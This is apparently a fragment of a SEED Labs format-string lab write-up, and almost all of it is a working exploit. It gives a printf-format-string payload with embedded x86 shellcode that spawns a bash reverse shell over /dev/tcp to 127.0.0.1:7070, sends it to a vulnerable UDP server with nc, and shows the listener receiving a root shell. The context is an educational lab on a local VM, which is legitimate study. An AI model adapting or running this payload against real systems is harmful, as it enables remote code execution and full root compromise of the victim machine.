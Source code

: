 and then we get the payload:

```shell
$ echo $(printf "\x9e\xf0\xff\xbf\x11\x11\x11\x11\x9c\xf0\xff\xbf")%048963x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%hn%012611x%hn$(printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x682>&1\x68<&1 \x6870 0\x681/70\x680.0.\x68127.\x68tcp/\x68dev/\x68 > /\x68h -i\x68/bas\x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80") > input7
$ nc -u 127.0.0.1 9090 <input7
```

Output:

```shell
[11/21/19]seed@VM:~/.../formatString$ nc -l 7070 -v
Listening on [0.0.0.0] (family 0, port 7070)
Connection from [127.0.0.1] port 7070 [tcp/*] accepted (family 2, sport 57044)
root@VM:/home/seed/Documents/SoftwareSecurity/formatString# who am i
who am i
root@VM:/home/seed/Documents/SoftwareSecurity/formatString# whoami
whoami
root
root@VM:/home/seed/Documents/SoftwareSecurity/formatString# ls
ls
input1
input2
input3
input5a
input5b
input5c
input6
input7
peda-session-server.txt
server
server.c
server.s
root@VM:/home/seed/Documents/SoftwareSecurity/formatString# touch b.txt
touch b.txt
root@VM:/home/seed/Documents/SoftwareSecurity/formatString# ls
ls
b.txt
input1
input2
input3
input5a
input5b
input5c
input6
input7
peda-session-server.txt
server
server.c
server.s
```
